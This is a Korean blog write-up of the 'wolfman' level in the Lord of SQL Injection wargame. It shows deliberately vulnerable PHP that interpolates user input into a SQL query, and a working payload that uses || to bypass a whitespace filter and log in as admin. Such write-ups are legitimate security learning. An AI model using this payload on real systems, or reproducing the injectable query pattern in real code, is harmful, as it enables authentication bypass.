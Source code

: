 ```yaml
---
title: "[Lord of SQL Injection] LoS - wolfman 문제풀이"
date: 2018-07-24
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


드디어 첫 줄의 마지막 문제인 `wolfman` 문제이다.
이번에는 `Blind SQL Injection`이 아니다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------------
query : select id from prob_wolfman where id='guest' and pw=''
-------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

첨엔 이 전에 나왔던 문제랑 뭐가 다른건가 했는데 이제보니 `공백`에 대한 필터링이 추가되어 있다.
당연한 얘기지만 이 경우 이 전 문제들을 풀었던 것 처럼 `1' or id='admin`을 사용할 수 없다.

그래서 이번에는 `or`이라는 문자열 대신에 `||`을 사용했다.
`or`을 사용 할 경우에는 `or id='admin` 처럼 무조건 공백이 들어가야 하지만, `||`는 공백 없이 `||id='admin`을 해도 잘 동작하기 때문이다.
문제를 풀기 위해 아래와 같이 입력 해 보았다.  

```plain
?pw=1'||id='admin
```

역시 문제를 풀 수 있었다.  

```php
-----------------------------------------------------------------------------------------------------
query : select id from prob_wolfman where id='guest' and pw='1'||id='admin'
-----------------------------------------------------------------------------------------------------

Hello admin
WOLFMAN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

---

```plain
WOLFMAN Clear!!
```